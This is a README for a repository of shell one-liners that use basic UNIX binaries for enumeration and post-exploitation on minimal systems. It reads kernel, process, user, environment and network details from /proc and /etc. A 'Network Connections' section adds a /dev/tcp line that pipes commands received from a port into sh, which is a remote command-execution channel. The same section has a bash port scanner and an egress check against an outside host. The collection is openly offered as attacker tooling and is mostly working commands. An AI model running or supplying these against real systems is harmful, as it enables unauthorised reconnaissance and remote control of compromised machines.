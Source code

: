 # lcdbins

An **lcdbin** is a lowest-common denominator binary - one which, with rare exceptions, should be present on any UNIX-based operating system. This repository is a collection of oneliners that use lcdbins to perform enumeration and post-exploitation activities that you'd normally use other tools for - such as id, netstat or python. Use them when you find yourself in a stripped-down environment where the usual tools aren't available.

Here is a list of the binaries used by the oneliners in this repository:

- awk
- bc
- cat
- echo
- grep
- ls
- printf
- read
- sed
- sort

Where possible alternatives have been provided in case one binary is unavailable on your specific system. Greetz to moogz for assistance and contributions.

## System Enumeration

Get kernel version information

```shell
cat /proc/version
cat /proc/sys/kernel/version
```

Get hostname

```shell
cat /proc/sys/kernel/hostname
```

Get current uid and gid

```shell
uid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/self/status | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo uid $uid gid $gid
```

Get group membership for uid

```shell
uid=1000; user=$(awk -F : -v x="$uid" '{if($3==x) print $1}' /etc/passwd); grep $user /etc/group
```

List environment variables

```shell
sed 's/\x0/\n/g' /proc/self/environ
```

List information about processes

```shell
echo PID NAME UID GID; pids=$(ls /proc | grep '^[0-9]*$'); for pid in $pids; do name=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "name:") print $2 }'); uid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "uid:") print $2 }'); gid=$(cat /proc/$pid/status 2> /dev/null | awk -F'[ \t]' '{if(tolower($1) == "gid:") print $2 }'); echo $pid $name $uid $gid; done;
```

List mounted filesystems

```shell
cat /proc/self/mounts
```

## Network Enumeration

Get local network interface addresses from /proc/net/fib_trie

```shell
awk '/32 host/ { print f } {f=$2}' /proc/net/fib_trie | sort -u
```

Parse listening TCP ports on /proc/net/tcp

```shell
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do printf "%d\n" "0x$i"; done | sort -un
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse listening UDP ports on /proc/net/udp

```shell
for i in $(awk -F "[ :]+" '{if(NR >=2) print $4}' /proc/net/udp); do printf "%d\n" "0x$i"; done | sort -un
for i in $(awk -F "[ :]+" '{if(NR >=2) print $4}' /proc/net/udp); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse destination and gateway from /proc/net/route

```shell
echo Interface Destination Gateway; awk "NR >= 2" /proc/net/route |while read line; do printf '%s %d.%d.%d.%d %d.%d.%d.%d\n' $(echo $line | awk -F ' ' '{print $1}') $(echo $line | awk -F ' ' '{print $2}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }') $(echo $line | awk -F ' ' '{print $3}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }'); done
```

Print the ARP table

```shell
cat /proc/net/arp
```

## Network Connections (requires bash)

Connect to a port and execute the command received

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```

Scan TCP ports

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```

## Miscellaneous

Get all IP addresses in a directory

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```
